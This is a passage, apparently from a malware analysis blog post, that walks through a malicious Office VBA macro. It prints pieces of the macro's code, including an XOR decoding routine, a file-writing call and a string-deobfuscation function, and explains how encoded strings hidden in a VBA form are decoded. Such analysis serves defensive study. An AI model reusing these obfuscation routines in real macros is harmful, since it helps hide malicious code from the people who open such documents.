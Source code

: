 ```java
      Put #fn, , wabbit
    Close #fn
    
    mucolerd = mciSendString(rigmarole(onzo(2)) & mf, 0&, 0, 0)
End Function

Function canoodle(panjandrum As String, ardylo As Integer, s As Long, bibble As Variant) As Byte()
    Dim quean As Long
    Dim cattywampus As Long
    Dim kerfuffle() As Byte
    ReDim kerfuffle(s)
    quean = 0
    For cattywampus = 1 To Len(panjandrum) Step 4
        kerfuffle(quean) = CByte("&H" & Mid(panjandrum, cattywampus + ardylo, 2)) Xor bibble(quean Mod (UBound(bibble) + 1))
        quean = quean + 1
        If quean = UBound(kerfuffle) Then
            Exit For
        End If
    Next cattywampus
    canoodle = kerfuffle
End Function

```

In folderol function, we see that the function Split is being called with the VBName F, and access F.T, but F macro is shown as empty, let's investigate:


# Decoding strings

The ***F*** variable is a reference to a VBA form, you can see that is a simple user interface with encoded and encrypted data, take a look

![]({{site.url}}{{page.images_prefix}}F_form.png)


I also used [ssviewer](https://www.mitec.cz/ssv.html) to interpret the ole file itself, and I found in the stream ***o*** the same data in the form.

![]({{site.url}}{{page.images_prefix}}FHex.png)


Here we can see that we have some encoded data divided by "***.***", this will give us a list of encoded strings, and each time that the malware wants to access an string, it calls the  ***rigmarole*** function, this function get the string in hex representation, and subtract the second byte for the first, jumping 2 bytes each time.


Rigmarole function:

```java
Function rigmarole(es As String) As String
    Dim furphy As String
    Dim c As Integer
    Dim s As String
    Dim cc As Integer
    furphy = ""
    For i = 1 To Len(es) Step 4
        c = CDec("&H" & Mid(es, i, 2))
        s = CDec("&H" & Mid(es, i + 2, 2))
        cc = c - s
        furphy = furphy + Chr(cc)
    Next i
    rigmarole = furphy
End Function
```